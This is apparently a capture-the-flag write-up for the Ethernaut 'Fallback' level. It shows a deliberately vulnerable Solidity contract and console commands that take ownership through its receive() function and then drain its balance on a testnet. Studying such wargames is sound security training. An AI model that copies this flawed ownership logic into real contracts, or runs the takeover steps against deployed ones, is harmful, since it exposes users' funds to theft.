 ## Ethernaut-solution

### 1.Fallback

1. you claim ownership of the contract <br>
2. you reduce its balance to 0

### learning
- How to send Ether when intracting with an ABI<br>
- How to send Ether outside of the ABI <br>
- Converting to and from wei/Ether units <br>
- Fallback methods <br>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import '@openzeppelin/contracts/utils/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;//internal database how much Ether each address has and how many token each address has, how much money each address has 
  address payable public owner;

//constructor deployed it set as owner 
  constructor() public {//executed lifecycle of smartcontract first get deploy
    owner = msg.sender; //send as owner 
    contributions[msg.sender] = 1000 * (1 ether); //mapping contribution set amount of Ether
  }

//modifier can applied any function in a smart contract 
  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

//contributionsの構成にsecurityhallがある
//何回もfunction contribute()を起動して、senderがownerよりcontributionsがmany many timesの状況になればownerになれてしまう

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }


  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

// this function is fallback function /you wanna send money to A contract 
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);//the best way attack become the owner
    //contributions条件を満たすことが攻撃の最初の準備。satisfy second condition first.
    owner = msg.sender;
  }
}
```
### solution 

- 1.you claim ownership of the contract 

*contract*...reference of our smart contract 
```
n {methods: {…}, abi: Array(7), address: '0xc3309271b114BFdC7DaDCAd2C3ED67116A798624', transactionHash: undefined, constructor: ƒ, …}
```

*contract.address*...smartcontract address 
```
'0xc3309271b114BFdC7DaDCAd2C3ED67116A798624'
```

*player*...my address 
```
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```

```
await contract.contributions(player) 
o {negative: 0, words: Array(2), length: 1, red: null}
```

//Array 0: 0 。現状no valueなのがわかる
```
await contract.getContribution()
```

//0のまんま

//そこでcall contribute function! It's payable.value: 1 => 1 ETH 

//1ETH send 
```
contract.contribute({value: 1})
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}
```

//1ETH sendでaccount valueが増えているか確認 key:value 
```
await contract.contributions(player)
o {negative: 0, words: Array(2), length: 1, red: null}
```
//Array 0: 1 。

//ownerの確認 
```
await contract.owner()
//this smartcontract own address
'0x9CB391dbcD447E645D6Cb55dE6ca23164130D008'
```

//playerの確認 = まだownerになってない
```
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```
```
//sendTransaction is special function from web3.js 
contract.sendTransaction({value: 1})
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}
```
```
//transaction
⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x3062639ee20c48140d527b324f283dfbca7b07bc2f42d1f01e907d3055b76177
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x3062639ee20c48140d527b324f283dfbca7b07bc2f42d1f01e907d3055b76177

```

//Transactionの成功によりcontractのownerが自分にchangeされているのを確認
```
await contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```



- 2.you reduce its balance to 0
```
//balanceの確認
await getBalance(contract.address)
'0.000000000000000002'
```

//function withdrawをreturn
//transfer all balance our wallet!
```
contract.withdraw()
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}
```
```

⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x4654244d4f2d9ece5c6cf290227532dda4960939ef760914f4e47cb9c7524c68
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x4654244d4f2d9ece5c6cf290227532dda4960939ef760914f4e47cb9c7524c68
```

//balanceが"0"になっているのを確認
```
await getBalance(contract.address)

'0'
```
---
## References
[DeFi Developer Academy](https://www.youtube.com/watch?v=tLMPGqRZx_M&list=PLj7si-ttXQyLum2AkpEy8PHxLHJJ2nDd-&index=3)

